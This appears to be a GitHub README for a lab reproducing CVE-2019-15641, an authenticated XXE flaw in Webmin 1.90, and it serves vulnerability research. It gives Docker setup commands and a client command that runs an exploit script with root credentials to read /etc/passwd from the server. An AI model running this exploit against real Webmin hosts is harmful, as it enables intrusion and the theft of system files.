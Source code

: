 # CVE-2019-15641

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-15641>


## PoC / Exploit

* <https://www.calypt.com/blog/index.php/authenticated-xxe-on-webmin/> 


## Environment used

* Ubuntu 18.04.3 LTS
* Webmin 1.90


## Reproduction
* Server
    - Docker version:
        ```shell script
        sudo docker build -t cve-2019-15641 . 
        sudo docker run -p 10000:10000 -it cve-2019-15641
        ```
    - Script version:
        ```shell script
        sudo bash installation.sh
        ```           
            
- Client:
    ```shell script
    python3 exploit.py --ip SERVER_IP --port 10000 --user root --password admin --file "/etc/" 
    ```

The output will be the content of <i>/etc/passwd</i>.